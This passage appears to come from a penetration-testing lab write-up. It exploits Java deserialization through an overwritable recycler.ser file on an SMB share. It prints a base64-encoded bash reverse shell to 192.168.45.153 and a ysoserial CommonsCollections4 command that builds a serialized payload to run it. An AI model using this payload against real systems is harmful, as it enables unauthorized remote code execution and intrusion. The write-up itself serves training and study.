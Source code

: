 `commons-collections4` was being used! Next, I checked to see if we could overwrite `recycler.ser` within the SMB directory.

<figure><img src="../../../.gitbook/assets/image (1383).png" alt=""><figcaption></figcaption></figure>

Based on the timestamp, this worked. So now, we need to create our serialised payload using `ysoserial`.&#x20;

{% code overflow="wrap" %}
```
$ echo 'bash -i >& /dev/tcp/192.168.45.153/21 0>&1  ' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjE1My8yMSAwPiYxICAK

$ /usr/lib/jvm/java-8-openjdk-amd64/bin/java -jar ~/ysoserial-all.jar CommonsCollections4 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjE1My8yMSAwPiYxICAK}|{base64,-d}|{bash,-i}' > recycler.ser
```
{% endcode %}

{% hint style="info" %}
You must use Java 8 to make it work. The latest versions of Java cannot run `ysoserial.jar` properly.&#x20;
{% endhint %}

This would generate a serialised object that we can use. Afterwards, place this within the share and click on Check Status on the website to get a reverse shell:

<figure><img src="../../../.gitbook/assets/image (3166).png" alt=""><figcaption></figcaption></figure>
